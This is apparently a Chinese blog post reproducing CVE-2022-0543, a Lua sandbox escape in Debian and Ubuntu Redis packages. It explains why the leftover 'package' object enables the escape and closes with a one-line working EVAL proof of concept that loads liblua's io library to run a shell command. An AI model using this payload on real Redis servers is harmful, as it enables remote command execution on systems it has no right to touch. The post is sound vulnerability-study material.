


# redis-Lua沙盒逃逸rce-CVE-2022-0543

## 前言

从P神的知识星球上看到了，简单复现一下。


## 相关知识

直到现在我才知道redis中可以执行lua脚本。。。

>  Redis embeds the Lua programming language as its scripting engine, which is made available through the **eval** command

常见的就这几个：

- EVAL

- EVALSHA
- SCRIPT LOAD - SCRIPT EXISTS
- SCRIPT FLUSH
- SCRIPT KILL


eval的命令格式：

```lua
EVAL script numkeys key [key …] arg [arg …]
```


lua的命令执行：



会报没有io，因为这个lua脚本跑在沙箱中，所以无法命令执行。


但是Debian以及Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象`package`，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

```shell
# Try and use these Lua modules shipped in Debian...
LUA_LIBS_DEBIAN = cjson bitop

# ... which are not always called their "C" names
LUA_LIBS_DEBIAN_NAMES = cjson bit

# ...

debian/lua_libs_debian.c:
        echo "// Automatically generated; do not edit." >$@
        echo "luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);" >>$@
        set -e; for X in $(LUA_LIBS_DEBIAN_NAMES); do \
                echo "if (luaL_dostring(lua, \"$$X = require('$$X');\"))" >>$@; \
                echo "    serverLog(LL_NOTICE, \"Error loading $$X library\");" >>$@; \
        done
        echo 'luaL_dostring(lua, "module = nil; require = nil;");' >>$@
```


通过向lua的上下文中注入了这么个package模块，可以利用这个模块加载任意lua库实现rce。

作者的文章中也说到：

> When the interpreter initialization was performed, the **module** and **require** Lua variables, which are present in the global environment on upstream Lua, but not on Redis' Lua, and would also enable this same attack, were cleared out, but the **package** variable was not. 

实际上注入了`module,require,package`三个，但是前两个都被`cleared out`了：

```c
echo 'luaL_dostring(lua, "module = nil; require = nil;");' >>$@
```

惟独`package`没有。

## POC

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```



## 参考链接

https://wx.zsxq.com/dweb2/index/topic_detail/585221215885284

https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce